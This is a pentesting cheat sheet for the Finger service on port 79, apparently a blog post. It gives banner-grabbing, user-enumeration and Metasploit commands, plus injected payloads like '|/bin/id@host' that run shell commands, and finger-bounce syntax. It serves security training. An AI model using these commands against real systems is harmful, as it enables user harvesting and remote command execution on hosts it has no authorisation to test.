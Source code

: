 ```yaml
---
title: Finger Pentesting Best Practices
categories: [pentesting protocols,finger]
tags: [pentesting,finger,best practicies]
comments: true
---
```


# Finger

> Finger usually uses port 79
{: .prompt-tip }

# What is Finger?

Finger is a program you can use to find information about computer users. It usually lists the login name, the full name, and possibly other details about the user you are fingering. These details may include the office location and phone number (if known), login time, idle time, time mail was last read, and the user's plan and project files.

```bash
PORT     STATE SERVICE               VERSION
79/tcp   open  fing                  Debian fingerd 
```

# Finger Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
|:-----------------------------|
| port:79 |

## Banner Grabbing

```bash
nc -vn 10.10.x.x 79
echo "root" | nc -vn 10.10.x.x 79
```

## Finger Credentials

## User Enumeration

```bash
finger @10.10.x.x      #List users
finger admin@10.10.x.x #Get info of user
finger user@10.10.x.x  #Get info of user

#########
finger admin@192.186.x.x 
Login: admin                            Name: Jhon Doe 
Directory: /home/admin                  Shell: /bin/bash 
Never logged in. 
No mail. 
No Plan.
```

## Alternatively you can use finger-user-enum from pentestmonkey, some examples:

Download script and run it with a wordlist: [HERE](https://github.com/pentestmonkey/finger-user-enum/blob/master/finger-user-enum-user-docs.pdf)

`finger-user-enum.pl` is a tool for enumerating OS-level user accounts via the finger service. As of release v1.0 it is known to work against the default Solaris daemon. It may not yet work against all daemons since there is no defined format for the data returned by the finger service.

```bash
finger-user-enum.pl -U users.txt -t 10.10.x.x
finger-user-enum.pl -u root -t 10.10.x.x
finger-user-enum.pl -U users.txt -T ips.txt
```

![Untitled](/assets/img/pitcures/finger/finger.png)

## Metasploit module for user enumeration

```bash
use auxiliary/scanner/finger/finger_users
```

![Untitled](/assets/img/pitcures/finger/finger1.png)

## Code Execution

```bash
finger "|/bin/id@10.10.x.x"
finger "|/bin/ls -a /@10.10.x.x"
```

## Finger Bounce

```bash
finger user@host@victim
finger @internal@external
```